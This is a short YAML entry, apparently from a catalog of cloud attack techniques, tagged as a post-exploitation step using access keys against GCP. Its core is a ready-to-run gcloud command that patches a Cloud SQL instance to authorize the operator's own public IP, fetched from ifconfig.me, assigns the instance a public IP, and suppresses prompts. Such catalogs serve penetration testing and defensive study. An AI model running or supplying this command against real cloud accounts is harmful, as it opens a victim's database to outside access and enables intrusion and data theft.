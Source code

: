 ```yaml
---
description: |
  Patches a GCP SQL instance to authorize a new network and assigns an IP.
command: |
  gcloud sql instances patch $INSTANCE_NAME --authorized-networks "$(curl ifconfig.me)" --assign-ip --quiet
items:
  - Access Keys
services:
  - GCP
OS:
  - Internal
attack_types:
  - PostExp
references:
  - https://cloud.google.com/sdk/gcloud/reference/sql/instances/patch
---
```

